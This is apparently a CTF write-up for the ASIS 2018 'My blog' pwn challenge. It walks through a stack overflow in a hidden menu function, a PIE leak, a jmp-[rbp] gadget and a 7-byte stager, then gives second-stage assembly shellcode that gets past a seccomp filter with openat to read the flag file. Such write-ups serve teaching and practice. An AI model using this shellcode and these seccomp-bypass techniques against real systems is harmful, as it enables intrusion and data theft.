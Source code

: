 ```yaml
---
title: ASIS CTF 2018 - My blog
author: Tosh
date: 2018-04-30
tags: ctf,asis,exploit,pown
layout: post
---
```


![](/images/asis-myblog.png)

- Exploit : [github](https://github.com/t00sh/ctf/tree/master/2018/asis/myblog)

- Challenge : [myblog](https://repo.t0x0sh.org/ctf/2018/asis/myblog/myblog)

For this challenge from ASIS-CTF, we have a remote ELF64 binary to exploit with almost all protections except SSP. This challenge have a menu asking different things like writing blog post, deleting them or showing the blog owner :

![](/images/asis-myblog2.png)

But the interesting function is hidden, and if we disassemble the binary with IDA-pro, we see that a special function can be called with "31337" from the menu. This function will call the read function with a size of 0x18, but only 0x10 bytes are allocated for the frame : we can trigger a stack-based overflow of 16 bytes.

![](/images/asis-myblog3.png)

One more interesting thing for this function : at the begining a function pointer is leaked, which break the PIE. But before returning, the function do different checks and do not allow us to have address between _base_ and  _base + 0xFFF_.

Now what can we do ?

If we go deeper, we can see an other interesting function called during the initialisation process. This function call mmap() with all protections (RWX), and allocate two memory pages. As you can see on the disassembly, the returned pointer is stored into .bss.

![](/images/asis-myblog4.png)

But can we control anything in this RWX memory zone ? The answer is yes. The third option in the menu allow us to write 7 bytes into this memory zone as you can see in this screen :

![](/images/asis-myblog5.png)

Now, we need two things : a 7 bytes shellcode and a gadget for calling the mmaped pointer. The second is easy to find with [rop-tool](https://github.com/t00sh/rop-tool) :

```
$ rop-tool g ./myblog
...
0x0000000000001893 -> jmp qword ptr [rbp];
...
```

By luck, we fully control the rbp pointer at the end of the vulnerable function (the saved-rbp is overwriten). Because of the very short shellcode size, I choosed to use the sys_read syscall for receiving a longer one at the same place. Here is my 7 bytes shellcode with the register settings at the end of the vulnerable function :

```
	section .text
    global _start
_start:
    ; EBX = 0
	; RBP = base + mmap_ptr
	; RDI = 0
	; RDX = 0x7f....
    xchg eax, ebx
    mov rsi, [rbp]
    syscall
```

This shellcode will receive data from stdin into the mmaped memory, and we can now send a more sophisticated one.

But we have a problem : at the beginning, seccomp is used and some syscalls are blacklisted. We can use [seccomp-tools](https://github.com/david942j/seccomp-tools) to see what syscalls cannot be called. And we get :

```
$ seccomp-tools dump ./myblog
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x06 0x00 0x40000000  if (A >= 0x40000000) goto 0010
 0004: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0010
 0005: 0x15 0x04 0x00 0x0000003b  if (A == execve) goto 0010
 0006: 0x15 0x03 0x00 0x00000039  if (A == fork) goto 0010
 0007: 0x15 0x02 0x00 0x0000003a  if (A == vfork) goto 0010
 0008: 0x15 0x01 0x00 0x00000038  if (A == clone) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
 ```

We see that open, execve, fork, vfork and clone are forbidden. So, how can we read the flag ? To perform that, we can use the syscall sys_openat with an absolute path : the first parameter (directory fd) will be ignored and the file will be opened. By luck, we learned the absolute path to the flag (/home/pwn/flag) from an another challenge.

We now have everything to build our second shellcode :

```
	section .text
	global _start
_start:
	;; openat()
	mov rbx, qword[rbp]
	add rbx, 0x1000
	mov qword[rbx], '/hom'
	mov qword[rbx+4], 'e/pw'
	mov qword[rbx+8], 'n/fl'
	mov qword[rbx+12], 'ag'
	mov qword[rbx+14], 0
	mov rax, 257
	mov rdi, 0
	mov rsi, rbx
	mov rdx, 0
	mov r10, 0
	syscall

	mov r10, rax

	;; read()
	mov rax, 0
	mov rdi, r10
	mov rsi, rbx
	mov rdx, 0x40
	syscall

	;; write()
	mov rax, 1
	mov rdi, 1
	mov rsi, rbx
	mov rdx, 0x40
	syscall
```

When the shellcode is executed, the flag is sent on stdout !

